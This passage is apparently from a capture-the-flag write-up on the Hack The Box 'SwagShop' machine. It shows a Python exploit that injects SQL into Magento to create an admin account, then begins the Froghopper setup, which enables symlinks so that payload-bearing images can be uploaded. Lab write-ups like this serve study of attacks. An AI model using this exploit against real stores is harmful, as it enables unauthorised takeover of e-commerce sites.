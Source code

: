 ```python
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="dm", password="rooted")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds forme:forme".format(target)
else:
    print "DID NOT WORK"
```

Sure enough, when we login with our new credentials, we can access the admin panel.

![](/assets/htb-swagshop/admin_panel_loggedin.png)

### Froghopper

Now that we have access to the admin panel, we cna start to leverage the CMS system agaisnt itself. We can use an attack called [*Froghopper*](https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper) to do this. Basically, we're going to take advantage of the fact that this version of Magento will allow us to upload malicious images with embeded payloads, without checking their validity first.

The first step in this process is to navigate to *System > Configuration*, then to *Advanced > Developer*. This will give you a set of options to choose from. Open up *Template Settings*, and change *Allow symlinks* to Yes.

![](/assets/htb-swagshop/allow_symlinks.png)